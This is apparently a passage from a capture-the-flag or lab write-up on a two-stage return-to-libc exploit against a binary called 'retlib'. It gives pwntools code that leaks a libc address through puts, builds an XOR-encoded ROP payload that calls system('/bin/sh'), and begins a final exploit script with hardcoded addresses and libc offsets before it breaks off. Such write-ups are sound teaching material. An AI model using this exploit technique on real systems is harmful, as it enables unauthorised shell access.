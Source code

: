 ```python
...
    # Create the rop chain
    rop  = p32(puts_plt)
    rop += p32(main_addr)
    rop += p32(puts_got)

    # Create and encode the payload
    payload = "A"*24 + rop
    payload = payload.ljust(52, "\x90")
    payload = xor(payload, 0xbe)

    # Launch the first stage of the attack
    comm.write(payload)
    log.info("Stage 1 sent!")
...
    # Create the rop chain for stage 2
    rop2  = p32(system_addr)
    rop2 += p32(exit_addr)
    rop2 += p32(binsh_addr)

    # Create and encode the payload for stage 2
    payload2 = "A"*24 + rop2
    payload2 = payload2.ljust(52, "\x90")
    payload2 = xor(payload2, 0xbe)

    # Launch the second stage of the attack
    comm.write(payload2)
    log.info("Stage 2 sent!")
...
```

## Final Exploit

The final exploit script for task 1:

```python
from pwn import *
import os
import posix

#context.log_level = "debug"

puts_plt = 0x08048380
fread_plt = 0x08048370
puts_got = 0x804a014
popret = 0x0804834d

main_addr = 0x8048537

offset___libc_start_main_ret = 0x19af3
offset_system = 0x00040310
offset_dup2 = 0x000ddd80
offset_read = 0x000dd3c0
offset_write = 0x000dd440
offset_str_bin_sh = 0x162cec
offset_setuid = 0x000b91a0
offset_puts = 0x000657e0
offset_exit = 0x00033260

def main():

    # Get the absolute path to retlib
    retlib_path = os.path.abspath("./retlib")
```